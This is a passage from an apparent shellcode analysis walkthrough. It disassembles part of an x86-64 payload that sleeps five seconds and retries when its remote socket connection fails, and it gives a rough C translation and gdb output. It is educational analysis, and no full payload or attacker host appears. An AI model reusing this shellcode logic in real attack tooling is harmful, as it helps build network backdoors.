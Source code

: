 ```nasm
push   0x0
push   0x5

; get the address of the timespec structure and store it into RDI
mov    rdi,rsp

; clear RSI
xor    rsi,rsi

; invoke sys_nanosleep
syscall
```

These instructions can be converted to the following C code:

```cpp
if (RAX > 0)
{
  // 0x4000ed
}

if (R9 == 0)
{
  exit(1);
}

struct timespec t;
t.tv_sec = 5;
t.tv_nsec = 0;

nanosleep(&amp;t, NULL);
```

The shellcode sleeps for **5 seconds** if it doesn't succeed to connect to the remote socket.

After the call to `sys_nanosleep`, follows these instructions:

```bash
(gdb) disassemble $rip,+14
# Dump of assembler code from 0x4000dd to 0x4000f5:
# => 0x00000000004000dd:  pop    rcx
#    0x00000000004000de:  pop    rcx
#    0x00000000004000df:  pop    rdi
#    0x00000000004000e0:  test   rax,rax
#    0x00000000004000e3:  jns    0x4000ac
#    0x00000000004000e5:  push   0x3c
#    0x00000000004000e7:  pop    rax
#    0x00000000004000e8:  push   0x1
#    0x00000000004000ea:  pop    rdi
#    0x00000000004000eb:  syscall
```

As you may notice, the shellcode uses the `POP` instruction 3 times:
